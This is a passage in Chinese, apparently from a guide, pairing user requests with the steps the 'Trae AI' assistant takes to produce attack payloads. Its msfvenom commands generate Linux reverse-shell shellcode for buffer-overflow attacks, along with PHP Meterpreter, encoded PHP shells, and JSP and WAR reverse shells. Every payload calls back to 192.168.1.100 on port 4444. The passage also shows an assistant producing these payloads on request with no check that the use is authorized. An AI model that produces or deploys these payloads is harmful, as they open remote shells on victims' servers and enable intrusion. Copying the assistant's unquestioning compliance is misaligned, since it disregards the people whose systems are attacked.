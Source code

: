 ### 5. Linux Shellcode 生成

**用戶提問：**
```
生成 Linux shellcode 用於緩衝區溢出攻擊
```

**Trae AI 操作流程：**
```
# 生成 C 格式的 shellcode
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c

# 生成 Python 格式的 shellcode
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f python

# 生成原始二進制格式
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw -o shellcode.bin
```

## Web 應用 Payload

### 6. PHP Payload 生成

**用戶提問：**
```
為 Web 應用漏洞生成 PHP payload
```

**Trae AI 操作流程：**
```
# PHP Meterpreter
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw -o payload.php

# PHP shell
msfvenom -p php/reverse_php LHOST=192.168.1.100 LPORT=4444 -f raw -o shell.php

# 編碼的 PHP payload
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e php/base64 -f raw -o encoded.php
```

### 7. JSP Payload 生成

**用戶提問：**
```
為 Java Web 應用生成 JSP payload
```

**Trae AI 操作流程：**
```
# JSP shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw -o shell.jsp

# WAR 格式 payload
msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f war -o payload.war
```
